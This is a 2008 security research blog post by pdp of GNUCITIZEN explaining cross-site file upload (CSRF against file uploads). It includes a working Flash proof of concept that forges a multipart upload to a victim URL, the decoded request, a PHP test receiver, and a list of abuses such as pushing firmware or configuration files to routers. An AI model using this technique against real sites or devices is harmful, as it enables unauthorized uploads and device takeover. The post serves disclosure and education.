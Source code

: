 ```yaml
---
title: Cross-site File Upload Attacks
author: pdp
date: Thu, 21 Feb 2008 12:15:32 GMT
template: post.pug
---
```


As you probably already know, CSRF attack are only possible when the attacked web application does not have an additional mechanism to ensure that requests towards it are genuine. In order to do that, the web developer must include a unique token for each request, which is validated on the server upon receiving a request. If the request value that represents the token matches the token that was generated for the request, then it is considered genuine and it should be left for additional processing. However, if both values do not match then the request is considered forged and as such should be disregarded.

Unfortunately, when it comes to file upload facilities, developers often forget to make such checks relying on the fact that file uploads are not spoofable, which in general is the correct assumption. However, when dealing with Web technologies, we often stumble across nasty surprises. The reason CSRF attacks against file uploads are not possible is because the HTML FORM specifications are not versatile enough to define sub-fields like `filename="whatever.txt"`, which are vital parts of the `multipart/form-data` specifications when submitting files. This is the only restriction and I will show you that attackers can easily overcome it with a bit of help from Flash.

## Cross-site File Uploads

We've already proved that various forms of home routers can be [entirely compromised](/blog/hacking-the-interwebs/) and hacked by [forging UPnP requests with flash](/blog/flash-upnp-attack-faq/). Now I will show you that file uploading facilities can be attacked in a similar way. Let's examine the following code, which you can compile with Flex2 SDK - `c:\Flex2\bin\mxmlc code.mxml`:

```xml
<mx:Application xmlns:mx="http://www.adobe.com/2006/mxml" creationComplete="onAppInit()">
	<mx:Script>
		/* by Petko D. Petkov; pdp
		 * GNUCITIZEN
		 **/
		import flash.net.*;

		private function onAppInit():void
		{
			var r:URLRequest = new URLRequest('http://victim.com/upload.php');

			r.method = 'POST';
			r.data = unescape('-----------------------------109092118919201%0D%0AContent-Disposition%3A form-data%3B name%3D%22file%22%3B filename%3D%22gc.txt%22%0D%0AContent-Type%3A text%2Fplain%0D%0A%0D%0AHi from GNUCITIZEN%21%0D%0A-----------------------------109092118919201%0D%0AContent-Disposition%3A form-data%3B name%3D%22submit%22%0D%0A%0D%0ASubmit Query%0D%0A-----------------------------109092118919201--%0A');
			r.contentType = 'multipart/form-data; boundary=---------------------------109092118919201';

			navigateToURL(r, '_self');
		}
	</mx:Script>
</mx:Application>
```

If you carefully read the content of the script you will notice that we are preparing an `URLRequest` object which we load with a `POST` method, a `contentType` which equals to `multipart/form-data` and a url-encoded data text. If we unencode the text we get the following result. Now let's have a look at it as well. Notice the `filename="gc.txt"` field:

```http
-----------------------------109092118919201
Content-Disposition: form-data; name="file"; filename="gc.txt"
Content-Type: text/plain

Hi from GNUCITIZEN!
-----------------------------109092118919201
Content-Disposition: form-data; name="submit"

Submit Query
-----------------------------109092118919201--
```

This looks like a valid `multipart/form-data` file upload, doesn't it? If you compile and execute the code you will see that the file upload is completely valid and will upload a file called `gc.txt` with content of `Hi from GNUCITIZEN!`. But you can also use the following PHP script to verify the result if you feel skeptical about the whole concept.

```php
<?php if ($_FILES['file']['error'] > 0): ?>
	<h1>Failiure</h1>
	<pre>
		<?php print_r($_FILES) ?>
	</pre>
<?php elseif (isset($_FILES['file'])): ?>
	<h1>Success</h1>
	<pre>
		<?php print_r($_FILES) ?>
		<?php echo file_get_contents($_FILES['file']['tmp_name']) ?>
	</pre>
<?php else: ?>
	<form method="post" enctype="multipart/form-data">
		<input type="file" name="file"/> 
		<input type="submit" name="submit"/>
	</form>
<?php endif ?>
```

## The Impact of Cross-site File Upload (CSFU) Attacks

Like CSRF attacks, there are plenty of things one can do with this type of technique. Here is a couple of evil things that come into my mind:

* Upload a nasty picture on someone's profile - I admit this is not very useful but still very funny and open for abuse.
* Upload a shiny new firmware to the router that is under attack by using the user as a proxy. This is pretty nasty and given the fact that there are numerous authentication bypass and A-to-C bugs floating around, it is very, very feasible.
* Upload a shiny new configuration file on the router that is under attack. Same as the one above - very feasible and easy to perform.
* Upload executable scripts on CMS - this of course is a bit more targeted..
